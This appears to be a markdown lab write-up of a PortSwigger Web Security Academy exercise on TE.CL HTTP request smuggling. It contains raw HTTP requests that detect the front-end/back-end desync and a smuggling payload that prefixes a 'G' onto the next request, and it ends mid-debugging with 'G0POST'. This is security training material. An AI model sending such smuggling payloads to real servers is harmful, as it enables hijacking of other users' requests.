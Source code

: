 ### PRACTITIONER Lab: HTTP request smuggling, basic TE.CL vulnerability
Please note:
The valid ending of the req that is parsed by `Transfer-Encoding: chunked` must be: `0\r\n\r\n`
Otherwise we're getting `Read timeout` err

To test for TE.CL send the following req:
```
POST / HTTP/1.1
Host: ff.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
X\r\n
```
As the response we get: 400 Bad Request, {"error":"Invalid request"}
It happens because the frontend server uses Transfer-Encoding header and therefore reads the first chunk (`abc` that has length of 3 bytes) and then it expects the size of the next chunk but instead it gets `X\r\n` which is invalid hex number and therefore it throw an err: 400 Bad request.

We can also check that backend server is using Content-Length header with the following req:
```
POST / HTTP/1.1
Host: ff.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
X
```
The response will be: 500 Internal Server Error, Communication timed out 
Because the frontend server parsed `0` as chunk size and therefore truncated everything after it (in this case `X` was truncated).
And when the backend server received Content-Length of 6 but the actual length of the body was 5 (`0\r\n\r\n` without `X`) - So the backend server will wait for the sixth byte to arrive until it times out and throws an err 

To solve the lab we need to smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

So we send the following req twice:
```bash
POST / HTTP/1.1
Host: ff.web-security-academy.net
Content-Length: 3
Transfer-Encoding: chunked
\r\n
1\r\n
G\r\n
0\r\n
\r\n
```
First response is 200 and the second response: "Unrecognized method G0POST"
Looks good, but the lab requires `GPOST` and we got `G0POST`
